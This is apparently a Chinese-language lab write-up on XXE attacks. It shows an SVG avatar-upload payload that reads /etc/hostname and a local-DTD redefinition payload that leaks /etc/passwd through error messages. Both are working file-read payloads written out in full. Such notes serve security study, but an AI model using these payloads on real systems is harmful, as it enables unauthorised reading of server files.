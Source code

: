 https://www.cnblogs.com/hf99/p/9748536.html

### XXE 文件上传

`svg`图片的格式是`xml`

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

写入svg文件，在blog下方上传作为头像

![image-20250512161951780](./img/image-20250512161951780.png)

`hostname：cf3510b77286`

### 通过重新定义本地DTD

使用GNOME桌面环境的系统通常在`/usr/share/yelp/dtd/docbookx.dtd`中有一个`DTD`，其中包含一个名为`ISOamso`的实体

重新定义`ISOamso`的实体，利用错误信息读取`/ec/passwd`

```dtd
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
